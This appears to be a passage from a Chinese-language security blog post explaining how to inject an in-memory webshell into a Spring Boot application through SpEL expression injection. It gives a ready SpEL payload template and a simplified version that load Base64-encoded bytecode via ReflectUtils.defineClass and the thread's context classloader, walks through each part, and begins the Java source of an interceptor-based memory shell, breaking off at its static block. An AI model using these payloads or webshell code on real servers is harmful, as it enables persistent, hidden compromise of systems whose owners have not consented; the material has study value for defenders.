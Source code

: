 # 五、拖入小树林注入内存马

纯度宝典第五页，什么 response 问题我都不在意，我只需要加载我的内存马就足矣！  
这里有一个 payload 模板  
`#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).newInstance()}`  
自己简化后：  
`T(org.springframework.cglib.core.ReflectUtils).defineClass('InceptorMemShell',T(org.springframework.util.Base64Utils).decodeFromString(''),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()`，接下来就逐步解析一下这个 payload

## defineClass

首先我们需要确认我们的目的，我们目的就是加载一个类，并且将其实例化。这里选择了 springboot 自带的工具类`ReflectUtils`，因为他识别 base64 字节，然后加载它。很方便。

## ClassLoader

加载一个类需要指定 classloader，我们肯定选定当前线程上下文的 classLoader  
`T(java.lang.Thread).currentThread().getContextClassLoader()`  
第一个 payload 用到了 Mlet 这个类  
![image.png](assets/1698895942-b06ce4d2224940408c24aa6de799a8be.png)  
他实际上是 URLClassLoader 的实现类，所以我个人来说是不知道为啥选 Mlet 这个。我猜测是兼容问题，因为 URLclassloader 可以加载任意类吧。不管是远程还是本地的。这个地方注意一下。

## 内存马

内存马选用的话就 springboot 内存马就行了。我这里选了一个 interceptor 内存马

```java
import org.springframework.web.servlet.HandlerInterceptor;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.util.List;

public class InceptorMemShell extends AbstractTranslet implements HandlerInterceptor {

    static {
```